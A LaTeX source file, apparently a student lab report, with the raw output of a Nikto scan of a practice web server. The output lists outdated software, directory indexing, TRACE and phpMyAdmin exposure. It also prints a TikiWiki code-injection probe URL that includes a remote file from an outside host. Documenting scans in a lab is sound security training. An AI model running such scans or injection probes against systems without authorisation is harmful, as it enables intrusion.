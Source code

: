 \documentclass{article}
\begin{document}

\subsection{Vulnerabilities for bwa.sait230.ca}

nikto scan:

\begin{lstlisting}[language=Bash]
root@bt-was:/pentest/web/nikto# ./nikto.pl -host bwa.sait230.ca -p 80
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.2.1.8
+ Target Hostname:    bwa.sait230.ca
+ Target Port:        80
+ Start Time:         2016-02-12 14:03:58 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.14 (Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.5 with Suhosin-Patch mod_python/3.3.1 Python/2.6.5 mod_perl/2.0.4 Perl/v5.10.1
+ OSVDB-3268: /cgi-bin/: Directory indexing found.
+ Apache/2.2.14 appears to be outdated (current is at least Apache/2.2.19). Apache 1.3.42 (final release) and 2.0.64 are also current.
+ mod_perl/2.0.4 appears to be outdated (current is at least 5.8)
+ mod_mono/2.4.3 appears to be outdated (current is at least 2.8)
+ PHP/5.3.2-1ubuntu4.5 appears to be outdated (current is at least 5.3.6)
+ Python/2.6.5 appears to be outdated (current is at least 2.6.10)
+ Perl/v5.10.1 appears to be outdated (current is at least v5.12.2)
+ OSVDB-630: IIS may reveal its internal or real IP in the Location header via a request to the /images directory. The value is "http://127.0.0.1/images/".
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ Retrieved x-powered-by header: PHP/5.3.2-1ubuntu4.5
+ OSVDB-3268: : Directory indexing found.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /test/: Directory indexing found.
+ OSVDB-3092: /test/: This might be interesting...
+ OSVDB-3092: /cgi-bin/: This might be interesting... possibly a system shell found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-40478: /tikiwiki/tiki-graph_formula.php?w=1&h=1&s=1&min=1&max=2&f[]=x.tan.phpinfo()&t=png&title=http://cirt.net/rfiinc.txt?: TikiWiki contains a vulnerability which allows remote attackers to execute arbitrary PHP code.
+ /wordpress/: A Wordpress installation was found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 6474 items checked: 1 error(s) and 23 item(s) reported on remote host
+ End Time:           2016-02-12 14:04:43 (GMT-5) (45 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
\end{lstlisting}
\end{document}
